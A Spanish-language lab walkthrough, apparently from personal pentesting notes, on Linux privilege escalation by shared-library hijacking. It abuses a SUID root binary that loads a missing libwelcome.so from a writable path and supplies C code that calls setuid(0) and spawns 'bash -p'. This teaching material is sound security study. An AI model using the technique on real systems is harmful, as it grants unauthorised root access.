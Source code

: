 Para este lab, se hará uso de la plataforma AttackDefense y se explotará la máquina “Library Chaos”.
Link de la web: 

![Untitled](/assets/Privesc/Shared-Library-Hijacking/Untitled 3.png)

La idea será abusar del binario: “/usr/bin/welcome”.

![Untitled](/assets/Privesc/Shared-Library-Hijacking/Untitled 4.png)

El binario tiene permisos SUID y el propietario es root pero otros pueden ejecutarlo. Al ejecutarlo se muestra un error al tratar de cargar la librería “libwelcome.so”, y al utilizar el comando ldd, se ve que está tratando de cargar esa librería misma pero se muestra como no encontrada:

![Untitled](/assets/Privesc/Shared-Library-Hijacking/Untitled 5.png)

Se podría intentar usar el “LD_PRELOAD” pero en este caso no funcionará, otra opción sería ver si el directorio “/etc/ld.so.conf.d” tiene permisos de escritura ya que si fuera el caso, se podría añadir una configuración para indicarle la ruta a la que debe atender para encontrar la librería que busca, sin embargo, este tampoco es el caso:

```bash
ls -l /etc/ | grep "ls.so.conf.d"
```

![Untitled](/assets/Privesc/Shared-Library-Hijacking/Untitled 6.png)

Aún así se podría ver los archivos de configuración existentes dentro de ese directorio para ver a qué rutas van.

![Untitled](/assets/Privesc/Shared-Library-Hijacking/Untitled 7.png)

El archivo “custom.conf” apunta al directorio “lib” dentro del home del usuario “student”, esta ruta no existe pero se puede crear y dentro de él, crear, ahora sí, una librería “libwelcome.so” maliciosa para cambiar el UID del usuario al de root aprovechando que el binario se ejecuta con permisos SUID.

```bash
cd
mkdir lib
cd lib
vi test.c
```

El contenido de test.c será lo siguiente:

*Nota: Se usa el nombre de función “welcome” ya que es la función a la que se está llamando en el binario "welcome”.*

```bash
{% raw %}
#include <stdio.h>
#include <unistd.h>

int welcome(){
	setuid(0);
	setgid(0);
	system("bash -p");
	return 0;
}
{% endraw %}
```

